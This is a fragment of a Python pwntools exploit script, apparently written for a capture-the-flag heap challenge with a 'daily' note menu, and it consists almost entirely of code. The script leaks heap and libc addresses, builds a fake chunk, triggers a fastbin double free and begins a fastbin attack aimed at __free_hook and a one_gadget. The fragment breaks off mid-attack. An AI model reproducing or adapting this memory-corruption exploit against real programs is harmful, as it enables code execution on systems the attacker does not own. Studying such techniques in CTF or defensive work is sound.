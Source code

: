 ```python
    p.recvuntil("daily\n")
    p.send(content)

def change(index, content):
    p.recvuntil("choice:")
    p.sendline("3")
    p.recvuntil("of daily:")
    p.sendline(str(index))
    p.recvuntil("daily\n")
    p.send(content)

def free(index):
    p.recvuntil("choice:")
    p.sendline("4")
    p.recvuntil("daily:")
    p.sendline(str(index))

add(0x60, 'a' * 0x10) # 0
add(0x80, "b" * 0x10) # 1
add(0x10, "c" * 0x10) # 2 
add(0x80, "d" * 0x10) # 3
add(0x10, "e" * 0x10) # 4

free(1)
free(3)

add(0x80, "b" * 0x8) # 1
add(0x80, "d" * 0x8) # 3

show()

heap_addr = u64(p.recvuntil("2 :", drop=True).split("bbbbbbbb")[-1].ljust(8, "\x00")) - 0x120
libc_addr = u64(p.recvuntil("\x7f")[-6:].ljust(8, "\x00"))
libc.address = libc_addr - 0x3c4b78
free_hook = libc.symbols['__free_hook']
print hex(libc.address)
print hex(heap_addr)

bss = 0x602068
one_gadget = 0x4526a	 # 0x4526a 0xf02a4 0xf1147
one_gadget += libc.address

# make fake chunk in heap
fake_chunk = p64(0) + p64(0x71)
fake_chunk += "a" * 0x60
fake_chunk += p64(0x60) + p64(0x100)
fake_chunk += p64(0x60) + p64(heap_addr + 0x1f0) # fake array_item
add(0x200, fake_chunk) # 0x1f0

# make fastbin double free
offset = (heap_addr + 0x1f0 + 0x60 + 0x18 - bss) / 16
free(str(offset))

free(0)

change(5, fake_chunk)
free(str(offset))

# fastbin attack
payload = p64(0x6020d8)
add(0x60, payload) # idx0

add(0x60, "C" * 0x10) 
```